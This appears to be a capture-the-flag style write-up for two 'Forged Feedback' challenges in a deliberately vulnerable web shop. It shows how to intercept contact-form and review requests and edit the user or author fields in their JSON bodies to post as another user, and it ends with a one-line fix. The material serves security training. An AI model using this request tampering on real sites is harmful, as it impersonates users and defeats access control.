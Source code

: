 ## Forged Feedback
### Challenge: Post some feedback in another user's name.
### Challenge: Post a product review as another user or edit any user's existing review.

### Category: Broken Access Control

Intercept request when submit a Contact form. Observe that there is a parameter that includes username

```json
{
	"UserId":21,
	"captchaId":31,
	"captcha":"29",
	"comment":"sup (***ter@test.com)",
	"rating":3
}
```

Modify `(***ter@test.com)` to another username and submit.


Similar for the other challenge where you can post review as another user. Just simply change the `author` value 

```json
{
	"message":"Great!",
	"author":"hacker@test.com"
}
```


# How to fix? 
- implement server-side input validation
